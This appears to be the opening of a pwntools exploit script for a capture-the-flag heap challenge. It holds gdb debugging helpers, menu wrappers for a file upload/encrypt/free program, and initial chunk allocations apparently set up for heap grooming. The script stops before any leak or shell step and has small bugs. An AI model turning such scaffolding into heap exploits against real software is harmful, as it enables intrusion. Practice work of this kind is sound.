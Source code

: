 ```c
port = 0
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def debug(filename = file_name,b_slice=[],is_pie=0,is_start = 1):
    global io
    b_string = ""
    if is_pie:
        for i in b_slice:
            b_string += f"b *$rebase({i})\n"
        for i in range(1,2):
            b_string += f"c\n"
    else:
        for i in b_slice:
            b_string += f"b *{hex(i)}\n"
    if is_start :
        io = gdb.debug(filename,b_string)
        return
    else:
        gdb.attach(io,b_string)
        pause()

b_encode=0x1dab
b_slice = [
    b_encode
]
io = process(file_name)
debug(b_slice = b_slice,is_pie=1,is_start=1) 


def cha(num):
    return str(num).encode()

def get_addr(arch):
    if arch == 64:
        return u64(io.recv(6).ljust(8,b'\x00'))
        #return u64(io.recv()[-8:].ljust(8,b'\x00')) 
    else:
        return u32(p.recv(4).ljust(4,b'\x00'))
        #return u32(io.recvuntil(b'\xf7')
def menu(choice):
	sla(b'>>\n',str(choice))
def upload(index,Size,content):
	menu(1)
	sla(b'FileIdx:',str(index).encode())
	sla(b'FileSize:',str(Size).encode())
	sa(b'FileData',content)
def enc(index):
	menu(3)
	sla(b'FileIdx:',str(index).encode())
def dec(index):
	menu(4)
	sla(b'FileIdx:',str(index).encode())
def show(index):
	menu(2)
	sla(b'FileIdx:',str(index).encode())
def free(index):
	menu(5)
	sla(b'FileIdx:',str(index).encode())

upload(0,0x20,b'a'*0x20)
upload(1,0x20,b'b'*0x20)
upload(2,0x450,b'c'*0x450)
upload(3,0x20,b'd'*0x20)

```